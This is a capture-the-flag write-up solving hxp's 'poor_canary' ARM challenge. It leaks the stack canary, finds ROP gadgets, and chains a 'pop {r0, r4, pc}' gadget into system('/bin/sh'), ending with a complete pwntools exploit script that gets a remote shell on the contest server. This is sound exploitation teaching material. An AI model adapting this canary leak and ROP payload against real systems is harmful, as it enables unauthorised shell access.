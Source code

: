 # poor_canary

poor_canary is a statically linked ARM binary which echoes input.

```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# file canary
canary: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=3599326b9bf146191588a1e13fb3db905951de07, not stripped
```

The original source code was provided as well, so we can see that (and why) the binary contains `system`:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    char buf[40];
    puts("Welcome to hxp's Echo Service!");
    while (1)
    {
        printf("> ");
        ssize_t len = read(0, buf, 0x60);
        if (len <= 0) return 0;
        if (buf[len - 1] == '\n') buf[--len] = 0;
        if (len == 0) return 0;
        puts(buf);
    }
}
const void* foo = system;
```

The binary is not position independent:
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# checksec canary
[*] '/mnt/c/Users/Benni/hxpctf/poor_canary/canary'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

so IDA can tell us the virtual address where `system` is (0x00016D90).

The buffer `buf` on the stack is 40 bytes long, but `read` will read 0x60 (96) bytes - a classical overflow where we can override the return address. A quick debugging session enlightens us that the return address is 12 bytes behind the canary.

Since the stack is protected by a canary, we have to leak it first. Since canaries always begin with a `00`, we have to send 41 characters to retrieve the canary:
```python
io.send("A"*41)
resp = io.recvline()
canary = '\x00' + resp[43:-1]
```

In order to execute `system("/bin/sh"), we need that string somewhere:
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# ropper -f canary --string "/bin/sh"


Strings
=======

Address     Value
-------     -----
0x00071eb0  /bin/sh
```

So far so good, now we have to move the address into r0 (first argument is in r0):
```
root@DESKTOP-HUPC6JQ:/mnt/c/Users/Benni/hxpctf/poor_canary# ropper -f canary --nocolor | fgrep ": pop {r0"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0005ab20: pop {r0, r1, r2, r3, ip, lr}; ldr r1, [r0, #4]; bx r1;
0x0005a120: pop {r0, r1, r2, r3, r4, lr}; bx ip;
0x0005ab04: pop {r0, r1, r3, ip, lr}; pop {r2}; ldr r1, [r0, #4]; bx r1;
0x00026b7c: pop {r0, r4, pc};
```

`pop {r0, r4, pc}` looks good: it pops into r0 **and** pc, so it does everything we need! We just have to
- write 40 bytes of garbage
- write the canary
- write 12 bytes of garbage
- write the address of our pop gadget (0x00026b7c)
- write the address of "/bin/sh" (0x00071eb0)
- write 4 bytes of garbage (which will go into r4)
- write the address of system (which will go into pc)
and the pc will point to `system`, r0 will point to `/bin/sh`, and thus we will have a shell!

```python
io.send("A"*40 + canary + "A"*12 + "\x7c\x6b\x02\x00" + "\xb0\x1e\x07\x00" + "A"*4 + "\x90\x6D\x01\x00")
```





Our full exploit script:
```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 116.203.30.62 --port 18113 ./canary
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./canary')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '116.203.30.62'
port = int(args.PORT or 18113)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)

io = start()
io.recvline()

# read canary
io.send("A"*41)
resp = io.recvline()
canary = '\x00' + resp[43:-1]

# GOGOGO
io.send("A"*40 + canary + "A"*12 + "\x7c\x6b\x02\x00" + "\xb0\x1e\x07\x00" + "A"*4 + "\x90\x6D\x01\x00")
io.interactive()
```
